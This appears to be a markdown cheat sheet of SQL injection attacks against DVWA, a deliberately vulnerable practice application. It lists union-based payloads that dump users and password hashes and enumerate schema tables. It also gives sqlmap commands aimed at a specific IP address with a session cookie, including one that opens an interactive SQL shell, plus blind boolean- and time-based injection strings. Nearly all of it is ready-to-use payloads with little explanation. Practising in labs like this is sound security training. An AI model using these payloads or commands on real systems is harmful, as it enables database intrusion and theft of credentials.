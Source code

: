 # SQL Injection 

##### Dump all users 
```sql
%' or '0'='0
```

##### Manual enumeration 

###### Trying to guess column names 
```sql
%' or '0'='0' union select COLUMN_NAME from information_schema.COLUMNS #
```

###### Find the table and column names 
```sql
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
```

##### Dumping password hashes 
```sql
%' or '0'='0' union select user, password from dvwa.users #
```

### Automated 
---

### Using sqlmap 

##### Find backend DB
```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --dbs
```

##### Getting an interactive sql shell 
```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --sql-shell
```


## Bling SQL injection 
---

##### Finding blind sqli (boolien based)
```sql
1' and 1 = 1 #
```
##### Finding database name length (boolien based)
```
1' and length(database())=4 #
```

##### Finding blind sqli (time based)
```sql
1' and sleep(5)#
```

##### Determine the first letter of the database name (time-based)
```
1' and if(substr((database()),1,1) = 'a' , sleep(3), 1) #
```




